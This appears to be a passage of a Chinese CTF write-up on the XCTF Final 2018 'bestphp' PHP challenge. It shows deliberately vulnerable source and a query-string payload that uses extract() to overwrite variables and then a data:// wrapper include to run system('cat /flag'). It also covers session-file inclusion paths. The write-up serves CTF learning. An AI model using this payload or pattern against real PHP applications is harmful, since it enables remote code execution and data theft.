```php
<?php
$option='\';
```

## 693-XCTF Final 2018

```php
<?php
    highlight_file(__FILE__);
    error_reporting(0);
    ini_set('open_basedir', '/var/www/html');
    $file = 'function.php';
    $func = isset($_GET['function'])?$_GET['function']:'filters'; 
    call_user_func($func,$_GET);
    include($file);
    session_start();
    $_SESSION['name'] = $_POST['name'];
    if($_SESSION['name']=='admin'){
        header('location:admin.php');
    }
?>
```

`call_user_func($func,$_GET);`，可令$func=extract实现变量覆盖

从而实现对$file的控制，利用文件包含：`include($file);`

### 伪协议rce

那么直接利用伪协议rce：

```
?function=extract&file=data://text/plain,<?=system('cat /flag');?>
```

具体还是看链接吧[XCTF Final 2018 Web Writeup (Bestphp与PUBG详解) - 先知社区](https://xz.aliyun.com/t/3174)，学到很多：

但是因为open_basedir的原因，都不能成功=-=，还是rce了

### 文件包含session（x）

还是文件包含，只是包含的是session文件，

因为session的值可控：`$_SESSION['name'] = $_POST['name'];`

> session默认的保存位置
>
> ```
> /var/lib/php/sess_PHPSESSID
> /var/lib/php/sessions/sess_PHPSESSID
> 
> /var/lib/php5/sess_PHPSESSID
> /var/lib/php5/sessions/sess_PHPSESSID
> 
> /tmp/sess_PHPSESSID
> /tmp/sessions/sess_PHPSESSID
> ```
>
> 由于`ini_set('open_basedir', '/var/www/html:/tmp')`，我们包含不了`/var/lib/`下的session
>
> 但是我在tmp下也找不到自己的session，所以这里的session应该是在`/var/lib/`下
>
> 这里可以调用session_start函数，修改session的位置
